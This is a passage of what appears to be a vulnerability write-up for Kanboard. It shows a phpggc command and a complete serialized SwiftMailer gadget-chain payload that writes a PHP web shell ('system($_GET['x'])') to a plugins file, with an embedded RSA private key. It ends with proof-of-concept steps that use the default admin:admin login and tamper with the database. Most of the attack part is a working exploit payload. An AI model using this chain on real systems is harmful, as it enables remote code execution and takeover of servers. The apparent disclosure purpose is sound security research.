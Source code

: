 ```
phpggc SwiftMailer/FW1 /var/www/app/plugins/test.php /home/kali/bounty/kanboard/payload.php > payload.txt
```

Now all that's left is to create a serialized associative array object and paste the output from `phpggc` into the `comment` field. This ended up being the final object that I used:

```
a:6:{s:7:"comment";a:2:{s:7:"comment";O:13:"Swift_Message":8:{s:37:"Swift_Mime_SimpleMimeEntity_headers";O:26:"Swift_Mime_SimpleHeaderSet":1:{s:36:"Swift_Mime_SimpleHeaderSet_factory";O:30:"Swift_Mime_SimpleHeaderFactory":3:{s:40:"Swift_Mime_SimpleHeaderFactory_encoder";O:44:"Swift_Mime_HeaderEncoder_Base64HeaderEncoder":0:{}s:45:"Swift_Mime_SimpleHeaderFactory_paramEncoder";O:44:"Swift_Mime_HeaderEncoder_Base64HeaderEncoder":0:{}s:40:"Swift_Mime_SimpleHeaderFactory_grammar";O:18:"Swift_Mime_Grammar":0:{}}}s:34:"Swift_Mime_SimpleMimeEntity_body";s:28:"<?php system($_GET['x']); ?>";s:37:"Swift_Mime_SimpleMimeEntity_encoder";O:43:"Swift_Mime_ContentEncoder_RawContentEncoder":0:{}s:35:"Swift_Mime_SimpleMimeEntity_cache";O:28:"Swift_KeyCache_ArrayKeyCache":2:{s:39:"Swift_KeyCache_ArrayKeyCache_contents";a:0:{}s:37:"Swift_KeyCache_ArrayKeyCache_stream";O:40:"Swift_KeyCache_SimpleKeyCacheInputStream":4:{s:51:"Swift_KeyCache_SimpleKeyCacheInputStream_keyCache";O:28:"Swift_KeyCache_ArrayKeyCache":2:{s:39:"Swift_KeyCache_ArrayKeyCache_contents";a:0:{}s:37:"Swift_KeyCache_ArrayKeyCache_stream";N;}s:48:"Swift_KeyCache_SimpleKeyCacheInputStream_nsKey";s:9:"something";s:50:"Swift_KeyCache_SimpleKeyCacheInputStream_itemKey";s:9:"something";s:55:"Swift_KeyCache_SimpleKeyCacheInputStream_writeThrough";O:31:"Swift_ByteStream_FileByteStream":2:{s:38:"Swift_ByteStream_FileByteStream_path";s:29:"/var/www/app/plugins/test.php";s:38:"Swift_ByteStream_FileByteStream_mode";s:3:"w+b";}}}s:38:"Swift_Mime_SimpleMimeEntity_cacheKey";s:9:"something";s:28:"Swift_MessageheaderSigners";a:1:{i:0;O:29:"Swift_Signers_DomainKeySigner":2:{s:14:"*_privateKey";s:886:"-----BEGIN RSA PRIVATE KEY-----
MIICXQIBAAKBgQDRpx277bhMnUSga718Dd7P7ZA+23B8kBzqie3hFklaPFL8R18w
bVjHU4VHJq1SIrkbaX9MKnuAl4y9VSruQuJtjb9k1mk1CaWgESwK0ViOx9ugoI4B
cmEToyO/gCPKAkF69r7Lfy/M0VOxXH58QURCQU3dS3pm5SP8hhy/ag8fowIDAQAB
AoGATbKBcoRHKR2fsVQ8hR0e1jBUpPbuWTuPe9xiLGj2BlsU5ioNPQVJQZXSbuwG
j8oOj/opEzErVBzWK9TEdEiVYRhcyPc6awiIulZAp928TRsP0+ZjKOTXtgU40GNf
BqdaI8oMgSjeB3mbJP9S9ghVmOEN1AArOPBrWKyIEcDq/gECQQD5C0rb1lYqN7Om
yx6gYUXW91xs40PCtNI1EVtFVkVb4B3Dsz3tmi93NxgDK+fJLcid3Yx4PF0v1pm6
ysBU2vupAkEA14IrToWxTtzcPI9852TJ4A9IA93Y7AppmWzkxp0uPM0tmRIuOpK+
foLPtdLcXE7KAtHoHnccpGSQE33clb5wawJBAOYPHXcZd/2F+UqCZudnFHoxhcr8
4nKyUWE+iF70BByMW1KWeQXOIjzxwxfi7jq1NZdHu2Sy9q6jgt3AQI3iwQkCQCy0
gP1R+H0OjdU2QsfRfZswMFU1ARm98zfzgeW9l2jfezUEs3hNFp0xz5q9Oh8f7QH2
vzsKpHNptQWGF2sszS8CQQCMZbkmUguZhj72vvJ33bbugLtjv2AjTQxwAOAZZF+3
6P1HpTADFnZQZbGAmjJNT//JEHs6+TTbb1Wjj+mJHbmR
-----END RSA PRIVATE KEY-----";s:37:"Swift_Signers_DomainKeySigner_bound";a:1:{i:0;r:13;}}}s:26:"Swift_MessagebodySigners";a:0:{}s:27:"Swift_MessagesavedMessage";a:0:{}}s:10:"visibility";i:1;}s:11:"author_name";s:4:"evil";s:15:"author_username";s:0:"";s:10:"event_name";s:14:"comment.create";s:4:"task";a:2:{s:2:"id";i:1;s:5:"title";s:4:"test";}s:13:"date_creation";i:1725000000;}                                                                                

```

#### PoC
1. Login as default admin user admin:admin
2. Create a project and a task.
3. Download and unzip the database.
4. Find a target row (any row will work) in the `project_activities` table and update the `event_name` field to `comment.create`.
    <figure style="text-align: center; margin: 2em 0;">